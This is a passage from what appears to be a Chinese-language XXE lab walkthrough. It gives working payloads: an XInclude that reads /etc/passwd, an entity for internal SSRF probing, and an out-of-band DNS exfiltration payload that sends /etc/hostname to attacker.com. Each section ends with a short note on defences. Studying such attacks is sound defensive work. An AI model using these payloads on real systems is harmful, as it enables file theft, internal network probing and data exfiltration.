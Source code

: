 **攻击流程**：

1. **注入XInclude标签**：

   ```
   <root xmlns:xi="http://www.w3.org/2001/XInclude">
     <xi:include parse="text" href="file:///etc/passwd"/>
   </root>
   ```

2. **触发解析**：服务端处理XML时加载外部文件内容。

**关键点**：

- **无需DOCTYPE**：直接通过`xi:include`引用资源。
- **parse="text"**：确保内容以文本形式嵌入。

**防御**：

- 禁用XInclude：移除`xmlns:xi`命名空间或过滤`xi:include`标签。

### 7. XXE结合SSRF（关卡9）

**攻击流程**：

1. **构造内网探测Payload**：

   ```
   <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://192.168.1.1:8080/admin">]>
   <data>&xxe;</data>
   ```

2. **分析响应**：根据HTTP状态码或内容判断内网服务存活情况。

**关键点**：

- **协议扩展**：`http://`、`ftp://`、`gopher://`（攻击Redis/MySQL）。
- **端口扫描**：通过响应时间差异判断端口开放状态。

**防御**：

- 网络隔离：限制服务器访问内网。
- 出站防火墙：仅允许必要的外联请求。

### 8. DNS外带数据（关卡10）

**攻击流程**：

1. **构造DNS查询Payload**：

   ```
   <!DOCTYPE foo [
     <!ENTITY % file SYSTEM "file:///etc/hostname">
     <!ENTITY % oob "<!ENTITY &#x25; exfil SYSTEM 'http://%file;.attacker.com/'>">
     %oob;
     %exfil;
   ]>
   ```

2. **监控DNS日志**：接收子域名请求（如`webserver.attacker.com`）。
